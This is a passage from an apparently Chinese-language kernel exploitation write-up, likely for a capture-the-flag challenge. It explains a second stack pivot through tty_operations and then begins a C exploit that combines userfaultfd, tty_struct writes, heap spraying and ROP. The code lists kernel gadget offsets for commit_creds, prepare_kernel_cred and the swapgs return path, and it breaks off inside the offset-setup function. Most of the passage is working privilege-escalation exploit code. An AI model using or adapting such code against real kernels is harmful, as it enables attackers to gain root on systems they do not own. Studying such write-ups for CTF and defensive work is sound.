 此时迁移的 tty 结构体上可控空间很小，因此进行第二次栈迁移，考虑到此时 rsp 下方有 tty_operations ，因此使用 pop rbp 迁移过去，最后再使用 leave ret 迁到 伪造 rop 的地方即可

userfaultfd + tty_struct->write + 堆喷+ rop

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>
#include <signal.h>
#include <sys/syscall.h>
#include <stdint.h>
#include <sys/prctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <assert.h>
#include "kernelpwn.h"

#define TTY_STRUCT_SIZE 0x2e0
int fd = 0;
char *mem;

size_t commit_creds = 0xa9b40;
size_t prepare_kernel_cred = 0xa9ef0;
size_t push_rdi_pop_rsp_pop_rbp_or_eax_edx_ret = 0x43f4e1;
size_t swapgs_restore_regs_and_return_to_usermode = 0xa00929;
size_t kpti_trampoline = 0;
size_t pop_r12_pop_rbp_ret = 0x2061;
size_t leave_ret = 0x2805;
size_t pop_rdi_ret = 0x7115;
size_t pop_rdx_ret = 0x358842;
size_t mov_rdi_rax_cmp_pop_rbp_ret = 0x45833;

// 0xffffffff81045833 <lmce_supported+35>:	mov    rdi,rax
// 0xffffffff81045836 <lmce_supported+38>:	xor    eax,eax
// 0xffffffff81045838 <lmce_supported+40>:	cmp    rdi,0x9000000
// 0xffffffff8104583f <lmce_supported+47>:	je     0xffffffff81045843 <lmce_supported+51>
// 0xffffffff81045841 <lmce_supported+49>:	pop    rbp
// 0xffffffff81045842 <lmce_supported+50>:	ret

struct args{
    size_t index;
    size_t size;
    char *data;
} typedef args;


void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;
    push_rdi_pop_rsp_pop_rbp_or_eax_edx_ret += vmlinux_base;
    pop_r12_pop_rbp_ret += vmlinux_base;
    leave_ret += vmlinux_base;
    mov_rdi_rax_cmp_pop_rbp_ret += vmlinux_base;
    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
```